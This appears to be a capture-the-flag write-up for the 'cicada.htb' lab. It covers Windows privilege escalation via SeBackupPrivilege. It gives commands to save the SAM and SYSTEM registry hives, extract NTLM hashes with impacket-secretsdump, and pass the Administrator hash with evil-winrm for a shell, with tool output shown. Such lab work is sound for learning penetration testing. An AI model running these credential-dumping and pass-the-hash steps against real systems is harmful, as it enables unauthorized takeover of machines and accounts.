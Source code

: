 - However, if this privilege is not properly managed or if it is granted to unauthorized users or processes, it can lead to a privilege escalation vulnerability. The SeBackupPrivilege vulnerability can be exploited by malicious actors to gain unauthorized access to sensitive files and data on a system.

Our task is to exploit the vulnerability to gain unauthorized access to sensitive files and data on a system like the sam and system hive.
1) Create a temp directory:
```
mkdir C:\temp
```

2) Copy the sam and system hive of HKLM to C:\temp and then download them.
```
reg save hklm\sam C:\temp\sam.hive
```

and
```
reg save hklm\system C:\temp\system.hive
```

3. Use impacket-secretsdump tool  and obtain ntlm hashes:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

```

Now can use evil-winrm to pass the hash and connect as Local Administrator:
```bash
evil-winrm -i cicada.htb -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

